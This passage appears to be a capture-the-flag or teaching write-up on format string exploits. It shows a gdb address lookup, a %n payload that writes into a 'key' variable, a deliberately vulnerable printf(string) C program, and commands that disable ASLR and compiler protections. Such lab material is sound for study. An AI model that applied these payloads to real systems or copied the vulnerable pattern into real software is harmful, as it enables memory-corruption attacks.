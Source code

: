 We can use gdb to find the address of the key. We first break at main, then run info add key.
 
You input: AAA
The key is equal to 0.

Breakpoint 2, 0x56556520 in main ()
(gdb) info add key
Symbol "key" is at 0xb086935c in a file compiled without debugging.

Let's add that to the start of our format string exploit. Additionally, we need to ensure that we reverse the byte order to respect the endianness. 

    echo "$(printf "\x5c\x93\x86\xb0")%x%4\$n" > ../exploit_Ch3_Format5_nTargetWrite 

	./Ch3_Format5_nTargetWrite < ../exploit_Ch3_Format5_nTargetWrite 	

This command ended up writing the number of characters we've printed so far, 12, into the key variable!


Hint: Play around with adjusting the padding to write the required value into key





## Notes for demo:

### 1) Recap

We left with this program: 
```
#include <stdio.h>

void printWrapper(char *string){
        printf(string); // <--- Bad use of printf()
}

int main(int argc, char *argv[]){

        char print_me[5012];

        fgets(print_me, 4096, stdin); // <--- User controls format string

        printWrapper(print_me);

        return(0);
}
```

demonstrative examples are compiled w/o memory protections, using: 
`sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'`
`gcc -no-pie -fno-pie -z execstack -z norelro -m32 -mpreferred-stack-boundary=2 -g demo.c -o demo`



### 2) Reading arbitrary memory
